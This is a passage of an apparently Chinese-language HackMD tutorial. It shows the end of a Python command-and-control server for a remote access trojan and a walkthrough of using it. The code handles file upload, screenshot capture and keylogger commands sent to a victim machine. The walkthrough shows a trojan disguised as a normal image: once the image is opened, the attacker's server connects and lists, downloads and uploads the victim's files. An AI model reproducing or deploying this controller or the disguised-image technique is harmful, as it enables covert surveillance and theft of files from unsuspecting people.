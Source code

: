 ```python
                reliable_send(base64.b64encode(content).decode("ascii"))
        except:
            failed = "[!!] Fail to upload!"
            reliable_send(failed)
            print(failed)
    elif command[:10] =="screenshot":
        image = reliable_recv()
        if image[:4]!= "[!!]":
            ss_file ="screen_" + str(ip) + datetime.datetime.now().strftime("_%Y-%m-%d_%H%M%S")+".jpg"
            with open(ss_file,"wb") as screen:
                screen.write(base64.b64decode(image))
        else:
            print(image)
    elif command[ :12] =="keylog_start":
        continue
    
    else:
        result =reliable_recv()
        print(result)

s.close()
```

死亡步驟
![](https://hackmd.io/_uploads/H1vFZSAUn.png)
看起來很普通的圖片打開變這樣
![](https://hackmd.io/_uploads/Sy_qbB0L2.png)
還是很普通

但server已經連到
![](https://hackmd.io/_uploads/B1W3ZrA8n.png)
![](https://hackmd.io/_uploads/S1l6ZHC83.png)

dir
![](https://hackmd.io/_uploads/SybyfrA8h.png)

download 1.jpg

![](https://hackmd.io/_uploads/SJWzGSAIn.png)

就被載到server端了
![](https://hackmd.io/_uploads/r1xgXfrCL3.png)

upload

![](https://hackmd.io/_uploads/H1DEMHC8n.png)

就傳過來了
